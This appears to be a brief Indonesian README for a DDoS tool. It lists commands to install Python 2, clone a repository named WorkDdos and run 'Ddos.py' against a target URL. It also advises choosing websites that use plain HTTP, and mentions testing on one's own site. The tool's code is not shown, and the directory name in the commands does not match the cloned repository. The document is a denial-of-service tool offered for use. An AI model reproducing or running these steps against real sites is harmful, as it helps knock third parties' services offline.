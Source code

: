 

$ apt update && upgrade
$ pkg install git
$ pkg install python2
$ git clone https://github.com/KangProf/WorkDdos
$ cd Ddos
$ chmod +x Ddos.py
$ python2 Ddos.py "Url Target"

Contoh python2 Ddos.py http://www.contoh.com

Saran untuk menggunakan tools yang sederhana ini cari website yang menggunakan protokol HTTP
Untuk mencoba serangan ddos ini,kalian membuat website sendiri terus di ddos menggunakan tool ini.jika berhasil nanti tulisan website menjadi eror "404"
